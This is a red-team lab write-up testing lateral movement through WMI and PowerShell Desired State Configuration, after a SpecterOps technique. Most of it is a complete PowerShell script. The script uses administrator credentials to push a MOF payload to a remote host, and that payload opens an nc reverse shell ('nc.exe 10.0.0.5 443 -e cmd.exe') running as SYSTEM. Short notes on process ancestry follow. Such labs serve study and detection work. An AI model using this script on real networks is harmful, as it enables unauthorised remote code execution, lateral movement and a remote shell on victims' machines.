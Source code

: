 ```yaml
---
description: Lateral Movment, Privilege Escalation
---
```


# WMI + PowerShell Desired State Configuration Lateral Movement

This lab is simply a test of the lateral movement technique desrcibed by Matt Graeber [here](https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06).

## Execution

Below is the powershell script that allows an attacker to execute code on a remote machine via WMI. Note that the payload is defined in the variable `TestScript` on line 7. In our case, the payload is a rudimentary nc reverse shell (luckily, we know the victim has nc on their machine :):

{% code title="dsc.ps1" %}
```csharp
# Credits to Matt Graeber. Code taken from https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06
$MOFContents = @'
instance of MSFT_ScriptResource as $MSFT_ScriptResource1ref
{
	ResourceID = "[Script]ScriptExample";
	GetScript = "\"$(Get-Date): I am being GET\" 	| Out-File C:\\Windows\\Temp\\ScriptRun.txt -Append; return $True";
	TestScript = "C:\\tools\\nc.exe 10.0.0.5 443 -e cmd.exe";
	SetScript = "\"$(Get-Date): I am being SET\" 	| Out-File C:\\Windows\\Temp\\ScriptRun.txt -Append; return $True";
	SourceInfo = "::3::5::Script";
	ModuleName = "PsDesiredStateConfiguration";
	ModuleVersion = "1.0";
	ConfigurationName = "ScriptTest";
};
 
instance of OMI_ConfigurationDocument
{
	Version="2.0.0";
	MinimumCompatibleVersion = "1.0.0";
	CompatibleVersionAdditionalProperties= {"Omi_BaseResource:ConfigurationName"};
	Author="TestUser";
	GenerationDate="02/26/2018 07:09:21";
	GenerationHost="TestHost";
	Name="ScriptTest";
};
'@

# Change this to false if you want to test the payload locally
$ExecuteRemotely = $True
 
$NormalizedMOFContents = [Text.Encoding]::UTF8.GetString([Text.Encoding]::ASCII.GetBytes($MOFContents))
$NormalizedMOFBytes = [Text.Encoding]::UTF8.GetBytes($NormalizedMOFContents)
$TotalSize = [BitConverter]::GetBytes($NormalizedMOFContents.Length + 4)
 
if ($ExecuteRemotely) {
	# Prepend the length of the payload
	[Byte[]] $MOFBytes = $TotalSize + $NormalizedMOFBytes
} else {
	# If executing locally, you do not prepend the payload length
	[Byte[]] $MOFBytes = $NormalizedMOFBytes
}


# Specify the credentials of your target
$Credential = Get-Credential -Credential "offense\administrator"
$ComputerName = 'ws02'
 
# Establish a remote WMI session with the target system
$RemoteCIMSession = New-CimSession -ComputerName $ComputerName -Credential $Credential
 
$LCMClass = Get-CimClass -Namespace root/Microsoft/Windows/DesiredStateConfiguration -ClassName MSFT_DSCLocalConfigurationManager -CimSession $RemoteCIMSession
 
if ($LCMClass -and $LCMClass.CimClassMethods['ResourceTest']) {
	# You may now proceed with lateral movement
 
	$MethodArgs = @{
    	ModuleName   	= 'PSDesiredStateConfiguration'
    	ResourceType 	= 'MSFT_ScriptResource'
    	resourceProperty = $MOFBytes
	}
 
	$Arguments = @{
    	Namespace  = 'root/Microsoft/Windows/DesiredStateConfiguration'
    	ClassName  = 'MSFT_DSCLocalConfigurationManager'
    	MethodName = 'ResourceTest'
    	Arguments  = $MethodArgs
    	CimSession = $RemoteCIMSession
	}
 
	# Invoke the DSC script resource Test method
	# Successful execution will be indicated by "InDesiredState" returning True and ReturnValue returning 0.
	Invoke-CimMethod @Arguments
 
} else {
	Write-Warning 'The DSC lateral movement method is not available on the remote system.'
}
```
{% endcode %}

The technique is captured in action in a gif below. On the left is the attacking system, on the right is the victim system and the window above the victim screen is another attacking system that is receiving the reverse shell:

![](../../.gitbook/assets/peek-2018-11-01-21-48.gif)

## Observations

Note the process ancestry and that our code was run with privileges of`NT AUTHORITY\SYSTEM`:

![](../../.gitbook/assets/screenshot-from-2018-11-01-22-00-51.png)

## References

{% embed url="https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06" %}
